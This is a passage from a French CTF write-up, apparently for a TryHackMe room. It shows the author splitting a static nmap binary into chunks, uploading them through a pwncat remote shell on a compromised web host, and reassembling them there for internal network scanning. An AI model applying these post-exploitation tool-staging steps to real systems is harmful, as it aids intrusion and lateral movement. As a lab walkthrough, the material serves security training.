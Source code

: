 Quand on regarde le hosts on voit deux adresses qui sont : 
172.18.0.2 et 172.16.1.10.


```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/timruff/static-binaries/raw/master/binaries/linux/x86_64/nmap -nv
2021-11-11 18:33:48 URL:https://raw.githubusercontent.com/timruff/static-binaries/master/binaries/linux/x86_64/nmap [5944464/5944464] -> "nmap" [1]

tim@kali:~/Bureau/tryhackme/write-up$ tar czvf nmap.tar.gz nmap

tim@kali:~/Bureau/tryhackme/write-up$ split -b 500K nmap.tar.gz 
```

On télécharge une version nmap compilée en static, il n'a pas besoin de libraires externes.   
On le compresse et on le découpe en morceaux de 500ko, sinon il y a des corruptions.

```bash
(remote) www-data@app.ctx.ctf:/tmp$ 
(local) pwncat$ upload ./xaa
./xaa ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[21:58:27] uploaded 512.00KiB in 1.34 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xab
./xab ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[21:58:33] uploaded 512.00KiB in 1.20 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xac
./xac ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[21:58:37] uploaded 512.00KiB in 1.17 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xad
./xad ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[21:58:42] uploaded 512.00KiB in 0.98 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xae
./xae ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 122.3/122.3 KB • ? • 0:00:00
[21:58:45] uploaded 122.26KiB in 0.67 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$                                                                                                                                                                                                                               
(remote) www-data@app.ctx.ctf:/tmp$ ls 
tmp.LafmN1qNjH	xaa  xab  xac  xad  xae
(remote) www-data@app.ctx.ctf:/tmp$ cat xa* > nmap.tar.gz
(remote) www-data@app.ctx.ctf:/tmp$ tar xzvf nmap.tar.gz 
nmap
(remote) www-data@app.ctx.ctf:/tmp$ chmod +x nmap
```
